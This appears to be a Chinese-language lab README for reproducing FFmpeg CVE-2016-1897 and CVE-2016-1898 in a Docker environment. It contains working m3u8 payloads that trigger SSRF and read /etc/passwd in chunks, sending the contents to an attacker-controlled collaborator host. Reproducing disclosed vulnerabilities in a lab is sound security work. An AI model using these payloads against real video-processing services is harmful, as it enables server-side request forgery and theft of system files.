


# FFmpeg 任意文件读取和SSRF漏洞（CVE-2016-1897/CVE-2016-1898）

FFmpeg是一个流行的多媒体框架，可以处理各种音频和视频格式。在FFmpeg中发现了两个漏洞，攻击者可以利用这些漏洞读取任意文件（CVE-2016-1897）或执行服务器端请求伪造（SSRF）攻击（CVE-2016-1898）。

参考链接：

- <https://tttang.com/archive/465/>
- <http://habrahabr.ru/company/mailru/blog/274855/>
- <http://xdxd.love/2016/01/18/ffmpeg-SSRF%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/>

## 环境搭建

执行如下命令构建并启动环境：

```
docker compose up -d
```

启动后，服务将监听8080端口。访问`http://your-ip:8080/`即可访问应用，应用是一个简单的视频播放器，允许用户上传和播放视频。

## 漏洞复现

发送以下poc复现SSRF漏洞：

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
http://collaborator/ssrf
```

你将看到collaborator服务器收到请求：



要复现任意文件读取漏洞，你需要在一个可控服务器（例如`http://intermediate.example.com/intermediate.m3u8`）中上传如下内容作为利用漏洞的中间文件：

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:,
http://collaborator/fileread?
```

可见，这段m3u8文件中包含collaborator的URL，你窃取的文件内容将被发送至这个collaborator URL中。

然后，使用这个中间文件来构造FFmpeg利用的POC并上传：

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://intermediate.example.com/intermediate.m3u8|subfile,,start,0,end,31,,:file:///etc/passwd|subfile,,start,32,end,63,,:file:///etc/passwd|subfile,,start,64,end,95,,:file:///etc/passwd|subfile,,start,96,end,127,,:file:///etc/passwd|subfile,,start,127,end,158,,:file:///etc/passwd
#EXT-X-ENDLIST
```

漏洞利用成功后，collaborator服务器收到请求，请求中包含`/etc/passwd`的内容：


